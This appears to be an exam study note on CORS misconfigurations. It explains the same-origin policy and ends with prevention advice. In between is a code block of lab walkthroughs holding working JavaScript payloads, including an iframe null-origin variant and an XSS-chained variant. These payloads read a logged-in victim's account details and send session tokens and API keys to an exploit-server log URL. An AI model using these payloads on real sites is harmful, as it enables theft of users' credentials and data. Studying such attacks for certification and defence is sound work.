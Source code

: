 # CORS

Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain. It extends and adds flexibility to the same-origin policy (SOP). However, it also provides potential for cross-domain attacks, if a website's CORS policy is poorly configured and implemented. CORS is not a protection against cross-origin attacks such as cross-site request forgery (CSRF).

## Same-origin policy

The same-origin policy is a restrictive cross-origin specification that limits the ability for a website to interact with resources outside of the source domain. The same-origin policy was defined many years ago in response to potentially malicious cross-domain interactions, such as one website stealing private data from another. It generally allows a domain to issue requests to other domains, but not to access the responses.

## Relaxation of the same-origin policy

The same-origin policy is very restrictive and consequently various approaches have been devised to circumvent the constraints. Many websites interact with subdomains or third-party sites in a way that requires full cross-origin access. A controlled relaxation of the same-origin policy is possible using cross-origin resource sharing (CORS).

The cross-origin resource sharing protocol uses a suite of HTTP headers that define trusted web origins and associated properties such as whether authenticated access is permitted. These are combined in a header exchange between a browser and the cross-origin web site that it is trying to access.

## Vulnerabilities arising from CORS configuration issues

{% code overflow="wrap" fullWidth="true" %}
```sh
https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#cors

# CORS vulnerability with basic origin reflection
Insecure CORS configuration in that it trusts all origins
Identify in the source code the account details are requested with AJAX request and it contains the user session cookie in the response.
- If response contains Access-Control-Allow-Credentials header, it may support CORS
- Send request with header Origin: https://example.com, see is reflected on response Access-Control-Allow-Origin: 
    Place code in the exploit server body and Deliver exploit to victim to steal the AJAX session token and API key. 
In the BSCP exam use the CORS vulnerability to steal JSON data that also include the administrator session token, 
and can be used to escalate privilege.
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
Deliver the exploit to the victim and access log to find Administrator API key.


# Server-generated ACAO header from client-specified Origin header
# Request
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
# Response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
# These headers state that access is allowed from the requesting domain, any domain can access the vulnerable resource


# Errors parsing Origin headers
Some applications that support access from multiple origins do so by using a whitelist of allowed origins.
When a CORS request is received, the supplied origin is compared to the whitelist. 
If the origin appears on the whitelist then it is reflected in the Access-Control-Allow-Origin header, access granted.
# For example, suppose an application grants access to all domains ending in:
*normal-website.com
# An attacker might be able to gain access by registering the domain:
hackersnormal-website.com
# Alternatively, suppose an application grants access to all domains beginning with
normal-website.com*
# An attacker might be able to gain access using the domain:
normal-website.com.evil-user.net


# Whitelisted null origin value
Origin header supports the value null. Browsers might send that value in various unusual situations:
    Cross-origin redirects.
    Requests from serialized data.
    Request using the file: protocol.
    Sandboxed cross-origin requests.


# CORS vulnerability with trusted null origin
- AJAX request, see response contains Access-Control-Allow-Credentials
- Add header Origin:null, send request and see Access-Control-Allow-Origin: null on response
- Craft exploit body
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>


# Exploiting XSS via CORS trust relationships
Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin 
that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject 
some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.
# Given the following request:
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
# If the server responds with:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
# Then an attacker who finds an XSS vulnerability on subdomain.vulnerable-website.com could use that to retrieve the API key, using a URL like:
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>


# Breaking TLS with poorly configured CORS (Trusted insecure protocols)
#  Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. 
# For example, when the application receives the following request:
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
# The application responds with:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
- AJAX request, see response contains Access-Control-Allow-Credentials
- Add header Origin: Origin: http://subdomain.lab-id, send request and see Access-Control-Allow-Origin: on response
- Craft exploit body
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>


# Intranets and CORS without credentials
#  Most CORS attacks rely on the presence of the response header:
Access-Control-Allow-Credentials: true
Without that header, the victim user browser will refuse to send their cookies, meaning the attacker will only gain access
to unauthenticated content, which they could just as easily access by browsing directly to the target website. 
# However, there is one common situation where an attacker can't access a website directly: when it's part of an intranet
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
#  And the server responds with:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```
{% endcode %}

## How to prevent CORS-based attacks

Proper configuration of cross-origin requests\
If a web contains sensitive info, the origin should be properly specified in the Access-Control-Allow-Origin header.\
Only allow trusted sites\
Origins specified in the Access-Control-Allow-Origin header should only be sites that are trusted\
Avoid whitelisting null\
Avoid using the header Access-Control-Allow-Origin: null.\
Avoid wildcards in internal networks\
Trusting network configuration alone to protect internal resources is not sufficient when internal browsers can access untrusted external domains.\
CORS is not a substitute for server-side security policies\
Web servers should continue to apply protections over sensitive data, such as authentication and session management, in addition to properly configured CORS.
